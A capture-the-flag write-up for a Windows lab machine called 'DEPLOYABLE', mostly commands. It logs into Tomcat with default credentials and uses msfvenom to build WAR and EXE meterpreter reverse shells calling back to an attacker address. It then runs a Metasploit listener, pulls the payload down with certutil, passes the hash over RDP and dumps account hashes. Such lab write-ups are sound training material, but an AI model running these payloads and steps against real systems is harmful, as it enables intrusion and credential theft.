# DEPLOYABLE



## NMAP SCAN

```text
PORT      STATE SERVICE            REASON          VERSION
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
5985/tcp  open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8009/tcp  open  ajp13              syn-ack ttl 127 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp  open  http               syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
47001/tcp open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49164/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
```

## PORT 8080 ENUMERATION



* DEFAULT CREDENTIALS WORKED \(tomcat:s3cret\)



### EXPLOIT

```text
msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.0.63 LPORT=5314 -f war -o shell.war
```







## WINPEAS









## PRIV ESC


```text
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.0.63 LPORT=5314 -f exe -o Service.exe

Listener
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter_reverse_tcp; set LHOST 10.10.0.63; set LPORT 5314; run"
```



```text
certutil -urlcache -f http://10.10.0.63:8000/Service.exe Service.exe

```




* My METERPRETER died so i repeat the process and immediately migrate to a more stable service \(svchost.exe\)





## AFTER GETTING THE CREDS \(NTLM\) WE CAN LOGIN RDP IF WE WANT

```text
xfreerdp /u:administrator /pth:0bb5408c47b5f48554e95414ce42a97c /cert:ignore /v:172.31.1.13
```





## CREDS

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0bb5408c47b5f48554e95414ce42a97c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
tomcat:1001:aad3b435b51404eeaad3b435b51404ee:43e4a10ae4179f461f8b069336b1dd07:::
```

## FLAGS

### USER

```text
5b7dbd2f4ce39bb536fe1da6c897a4fb
```

### ROOT

```text
11400db5d23b9738534002f27b86c030
```


